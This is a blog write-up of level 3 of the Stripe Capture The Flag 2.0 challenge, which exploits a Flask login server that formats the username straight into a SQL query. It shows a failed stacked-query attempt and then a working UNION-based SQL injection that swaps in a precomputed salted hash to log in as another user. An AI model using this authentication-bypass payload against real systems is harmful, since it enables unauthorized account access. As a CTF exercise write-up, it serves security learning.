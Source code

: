 +++
layout = "post"
title = "Stripe Capture The Flag 2.0 - Problem 3"
date = "2012-09-19T00:01:00"
comments = "true"
categories = ["ctf"]
+++

## Level 3

Finally we get to level 3. Here's the setup:

```
After the fiasco back in Level 0, management has decided to fortify the Secret Safe into an unbreakable solution (kind of like Unbreakable Linux). The resulting product is Secret Vault, which is so secure that it requires human intervention to add new secrets.

A beta version has launched with some interesting secrets (including the password to access Level 4)
```

Here's the code for the server (Python finally!)
{{< gist kevinjqiu 3747632 >}}

...and here's the front-end:
{{< gist kevinjqiu 3747637 >}}

From the description, we know that we need to break into bob's account to retrieve the password to level 4, although breaking into eve and mallory's accounts are attempting :) Afterall, who wouldn't want to know the proof of [P=NP](http://en.wikipedia.org/wiki/P_versus_NP_problem) or how to make a [perpetual motion machine](http://en.wikipedia.org/wiki/Perpetual_motion_machine)?

Anyhow, the front-end is a typical login page: you get username and password input fields, and they're sent off (via POST) to a server script.
The server is a simple Flask app that gets the user input, checks them against a table of username and salted password hashes.

The `login()` function is where all the action takes place. Line 86 quickly caught my eyes:

```python
query = """SELECT id, password_hash, salt FROM users WHERE username = '{0}' LIMIT 1""".format(username)
cursor.execute(query)
```

This is an alarming pattern of formatting a string and sending it off to `cursor.execute()`. Python's string `format()` method is just another way of interopolation. It's exactly the same as `"""SELECT id, password_hash, salt FROM user WHERE username = %s""" % username"""`.

Now that we found the vulnerability, we need to find a way exploit it.

### Take 1

Normally, with SQL injection, you craft an input to terminate the previous statement, and inject the statement you want it to execute. Reading the code, it's getting the user's password hash and salt for the given user, and check it against the input hash and salt. The hashing method is [sha256](http://en.wikipedia.org/wiki/SHA-2). With Python, we can quickly pre-calculate a salted hash to inject. Here's an example, with password `1` and salt `a`.

```bash
python -c "import hashlib; print hashlib.sha256('1'+'a').hexdigest()"
```

and we get `a73fcf339640929207281fb8e038884806e2eb0840f2245694dbba1d5cc89e65`.

The statement we really want it to execute is:

```sql
SELECT id, 'a73fcf339640929207281fb8e038884806e2eb0840f2245694dbba1d5cc89e65', 'a' FROM users WHERE username = 'bob'
```

so when we put '1' in the password input box, we will get the server to run sha246 on '1' + 'a', and check it against the hash that we fed in. The entire query gets executed wil look like this (with the middle line being the `username` we feed in):

```sql
SELECT id, password_hash, salt FROM users WHERE username = '
'; SELECT id,  'a73fcf339640929207281fb8e038884806e2eb0840f2245694dbba1d5cc89e65', 'a' FROM users WHERE username='bob
' LIMIT 1
```


How does that faire?

Unfortunately, we get a stack trace in the traceback:

```
Traceback (most recent call last):
  File "/Library/Python/2.6/site-packages/Flask-0.9-py2.6.egg/flask/app.py", line 1689, in wsgi_app
    response = self.make_response(self.handle_exception(e))
  File "/Library/Python/2.6/site-packages/Flask-0.9-py2.6.egg/flask/app.py", line 1687, in wsgi_app
    response = self.full_dispatch_request()
  File "/Library/Python/2.6/site-packages/Flask-0.9-py2.6.egg/flask/app.py", line 1360, in full_dispatch_request
    rv = self.handle_user_exception(e)
  File "/Library/Python/2.6/site-packages/Flask-0.9-py2.6.egg/flask/app.py", line 1358, in full_dispatch_request
    rv = self.dispatch_request()
  File "/Library/Python/2.6/site-packages/Flask-0.9-py2.6.egg/flask/app.py", line 1344, in dispatch_request
    return self.view_functions[rule.endpoint](**req.view_args)
  File "/Users/kevin/src/ctf/level03-code/secretvault.py", line 91, in login
    cursor.execute(query)Warning: You can only execute one statement at a time.
```

`cursor` cannot run more than one statement at a time! Smart, eh?

### Take 2

So the trick here is to use exactly 1 statement to inject our crafted data. We still want this to be returning the same fields. What if I `UNION` two queries, with the second query selecting the injected data?

So something like this (the middle line is the one we inject as `username`):

```sql
SELECT id, password_hash, salt FROM users WHERE username = '
bob' UNION select id, 'a73fcf339640929207281fb8e038884806e2eb0840f2245694dbba1d5cc89e65', 'a' FROM users WHERE username = 'bob
' LIMIT 1
```

Submit, and boom:

```
Welcome back! Your secret is: "..." (Log out)
```

## Conclusion

This is a canonical SQL injection. Again, NEVER trust user input. Always sanitize user input.
